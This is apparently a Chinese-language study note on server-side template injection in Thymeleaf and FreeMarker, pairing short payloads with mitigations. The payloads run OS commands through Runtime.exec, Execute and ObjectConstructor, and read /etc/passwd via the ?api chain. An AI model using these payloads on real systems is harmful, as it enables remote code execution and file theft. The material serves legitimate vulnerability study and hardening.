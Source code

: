 
Velocity、FreeMarker以及Thymeleaf三个模板注入。
<https://forum.butian.net/share/1661>
<https://www.cnblogs.com/LittleHann/p/17846825.html#_label1>
<https://tttang.com/archive/1412/#toc_api>

SSTI:Server Side Template Injection，即服务端模板注入。
在Web开发中，为了使用户界面与业务数据分离，提升开发效率，因此会使用模板引擎来生成一个标准的HTML文档用来数据的展示。
作为视图层，常见于前后端不分离的项目。

## **Thymeleaf模板注入**
```
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}__::.x

__${T(java.lang.Runtime).getRuntime().exec("calc")}__::feng
```


####  **修复方案**
1. 设置ResponseBody注解
如果设置`ResponseBody`，则不再调用模板解析

2. 设置redirect重定向
```
@GetMapping("/safe/redirect")
public String redirect(@RequestParam String url) {
    return "redirect:" + url; //CWE-601, as we can control the hostname in redirect
```
根据spring boot定义，如果名称以`redirect:`开头，则不再调用`ThymeleafView`解析，调用`RedirectView`去解析`controller`的返回值

3. response
```
@GetMapping("/safe/doc/{document}")
public void getDocument(@PathVariable String document, HttpServletResponse response) {
    log.info("Retrieving " + document); //FP
}
```
由于controller的参数被设置为HttpServletResponse，Spring认为它已经处理了HTTP Response，因此不会发生视图名称解析



^
## **Freemarker模板注入**
引入并使用Freemarker模板就可能存在注入
<https://tttang.com/archive/1412/#toc_api>

通过使用内置函数new，可创建任意实现了`TemplateModel`接口的Java对象，借助`freemarker.template.utility.JythonRuntime`、`freemarker.template.utility.Execute`、`freemarker.template.utility.ObjectConstructor`这三个类可以实现RCE：

```
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc")</@value>
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc")}
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","open -a Calculator").start()}
```
或者使用内置的api函数来调用恶意类、读取文件：
```
<#assign classLoader=object?api.class.getClassLoader()>${classLoader.loadClass("Evil.class")}

<#assign uri=object?api.class.getResource("/").toURI()>
  <#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
  <#assign is=input?api.getInputStream()>
  FILE:[<#list 0..999999999 as _>
      <#assign byte=is.read()>
      <#if byte == -1>
          <#break>
      </#if>
  ${byte}, </#list>]
```

#### **漏洞修复**

通过setNewBuiltinClassResolver(TemplateClassResolver.SAFER\_RESOLVER)来设置解析规则：

1、UNRESTRICTED\_RESOLVER：可以通过 `ClassUtil.forName(className)` 获取任何类。 
2、SAFER\_RESOLVER：不能加载 `freemarker.template.utility.JythonRuntime`、`freemarker.template.utility.Execute`、`freemarker.template.utility.ObjectConstructor`这三个类。 
3、ALLOWS\_NOTHING\_RESOLVER：不能解析任何类。 可通过`freemarker.core.Configurable#setNewBuiltinClassResolver`方法设置`TemplateClassResolver`，从而限制通过`new()`函数对`freemarker.template.utility.JythonRuntime`、`freemarker.template.utility.Execute`、`freemarker.template.utility.ObjectConstructor`这三个类的解析。



